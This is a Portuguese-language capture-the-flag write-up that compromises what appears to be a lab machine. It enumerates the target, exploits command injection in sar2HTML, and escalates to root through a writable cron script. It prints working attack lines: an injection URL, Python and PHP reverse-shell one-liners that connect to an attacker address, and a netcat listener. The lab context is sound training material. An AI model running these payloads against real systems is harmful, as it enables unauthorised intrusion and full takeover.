


# Capture the Flag - CTF
CTF  - Enumerando, explorando vulnerabilidade, conseguindo shell e posteriormente acesso root.
<h2>Passos seguidos para realizar essa exploração.</h2>

1. Utilizar o **Netdiscover**
2. Escanear portas usando **Nmap**
3. Enumeração da aplicação web com **Dirb**
4. "Exploitando" a vulnerabilidade com código de execução remota **(Remote Code Execution)**
5. Conseguindo shel remota com Python.
6. Explorar permissão de acesso de arquivo e conseguindo acesso root.

# Passo 1: Encontrando o IP da máquina alvo.
  
  O primeiro passo é rodar o Netdiscover para verificar os IPs na rede.
  
  
  
  Como pode-se ver, o endreço IP do alvo é: 192.168.1.24
  
  # Passo 2:
  
  Após conseguir o endereço IP alvo, o primeiro passo é escanear as ṕortas abertas e avaliar os serviços em execução.
  Vamos utilizar o **Nmap**.
  
  
  
  **_comando utilizado nmap -A 192.168.1.24_**
  
  Pode-se ver acima que a porta 80 está aberta, com o serviço http rodando. Também é possível ver algumas informações sobre o sistema alvo.
  
  # Passo 3
  
  Analisando a aplicação rodando na porta 80.

  <h1 align="center">
  
  </h1>
  
  Como pode ser visto na imagem acima, o serviço rodando na porta 80 é a página padrão do **apache**.
  Vamos verificar se há algum arquivo que pode ser explorado. Para isso vamos rodar a ferramenta **Dirb** e enumerar os arquivos da aplicação.
  
  
  <h1 align="center">
  
  </h1>
  
  **_Comando usado dirb 192.168.1.24_**
  
  Alguns arquivos foram encontrados como resultado do scan. Eciste alguns arquivos que retornadram status 200 do servidor.
  Vamos verificar o arquivo **"robots.txt"** no navegador.
  
   <h1 align="center">
  
  </h1>
  
  Podemos ver que há uma entrada incomum no arquivo **_robots.txt_**. Verificando o arquivo no browser:
  
  <h1 align="center">
  
  </h1>
  
  Como podemos ver, **"sar2HTML"** é uma ferramenta  instalada na máquina alvo, sua versão está disponível.
  
  # Passo 4
  
  Agora temos a aplicação -"sar2HTML"- e sua versão. Fazendo uma pesquisa, podemos ver que a aplicação é vulnerável e possui um exploit disponível.
    
   <h1 align="center">
  
  </h1>
  
  O primeiro resultado no google nos leva ao **Exploit-DB**. A ferramenta que roda no sistema possui a vulnerabilidade de execução de código remoto. Podemos ver os detalhes do exploit abaixo:
  
   <h1 align="center">
  
  </h1>
  
  Podemos ver os parâmetros de utilização do exploit
  
Montando a URL para utilizar no alvo:  **Exploit <<<http:192.168.1.24/sar2HTML/index.php?plot=;>>>**

Tentando ler o arquivo **_"/etc/passwd"_** através da execução do comando na URL. O resultado pode ser vist abaixo:

   <h1 align="center">
  
  </h1>
  
  O exploit funcionouuu e retornou o conteúdo de "/etc/passwd".
  
  # Passo 5
  
  Agora podemos executar comandos no alvo através do navegador utilizando o exploit. Como o objetivo é conseguir o acesso root, vamos conseguir um acesso um shell reverso. Existem algumas possibilidades para isso:
        1. Podemos utilizar python and perl
        2. Podemos utilizar o metasploit pra criar o arquivo de conexão reversa, fazer download dele como o comando **wget** e executá-lo.
        3. Se a máquina alvo possuir o netcat, podemos utilizá-lo para criar a conexão reversa.
       
Tentando o terceiro método primeiro, para isso basta verificar se á máquina alvo possui o netcat. Podemos rodar o comando **"nc --help"**, se o comando retornar o resultado quer dizer que o netcat está disponível.

   <h1 align="center">
  
  </h1>
  
  Como podemos ver acima o comando não retornou nada. Então vamos tentar o primeiro método. Para isso basta verificar se existe python ou perl instalando no sistema. Testando python primerio
  
   <h1 align="center">
  
  </h1>
  
  Como podemos ver na imagem, python está disponível no alvo e pode ser usado para conexão reversa. Agora é necessário executar o script de conexão reversa na máquina alvo, imagem abaixo.
  
    
   <h1 align="center">
  
  </h1>
  
  **URL: 192.168.1.24/sar2HTML/index.php?plot=;%20python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.20%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**
  
  
  **_Comando usado:_**
  
  1.  <<python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’>>
  2.  <<nc -lvp 1234>>
  
  Como se pode ver, eu coloquei o netcat para rodar na porta <<4321>> e então inserir o comando o navegador para receber a conexão reversa.
  
  
  # Passo 6
  
  Agora temos o acesso a shell, mas é uma acesso limitado. E o objectivo é conseguir acesso root. Então primeiro exectuta-se o comando para que nos dá acesso estável a shell.
  
    <h1 align="center">
  
  </h1>
  
  **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’**
  
  E então eu quero saber a vesão do kernel linux:
  
  **uname -a**
  
  E a versão do sistema operacional
  
  **cat /etc/issue**
  
  Com essas informações em mãos pode-se pesquisar e ver o que se encontra. Procurando exploits online, nenhum pareceu atender. Entretanto, explorando o sistema por mais informações, conseguimos uma "user flag", como mostrado no print abaixo:
  
   <h1 align="center">
  
  </h1>
  
  **cd /home/love/Desktop**
  **cat user.txt**
   Podemos ler o arquivo user.txt.
   
 # Passo 7
 
 
 Buscando por permissões de arquivo **<<cat /etc/crontab>>**, temos um Cron que é executado como root a cada 5 minutos
  
   <h1 align="center">
  
  </h1>
  
  O Cron está rodando a partir de um arquivo, "finally.sh" como visto na imagem
    
   <h1 align="center">
  
  </h1>
  
  Mudando de diretório para **/var/www/html**  e lendos os  arquivos e suas permissões pode-se ver que com o nível de acesso atual, é possivel editar o arquivo "write.sh", que será excutado pelo Cron, que por sua vez roda como root.
  
  Agora ajustamos uam connexão reversa com php dentro do arquivo write.sh
  
  **_php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i<&3 >&3 2>&3”);’_**
  
  Esse comando o sistema alvo se conectará a nós (conexão reversa) na porta 4444. Como a ativade Cron estava configurada para executar a cada 5 minutos, aguardando esse tempo temos a conexão.
  
   <h1 align="center">
  
  </h1> 
  
  Agora que temos acesso root, podemos, objetivo deste CTF, Podemos ler a flag **cat root.txt**
  
  <h1 align="center">
  
  </h1>
  
  Podemos fazer qualquer coisa no sistema agora e isso completa o CTF.
  
  
  
  
 
  
  
  
  
  
  
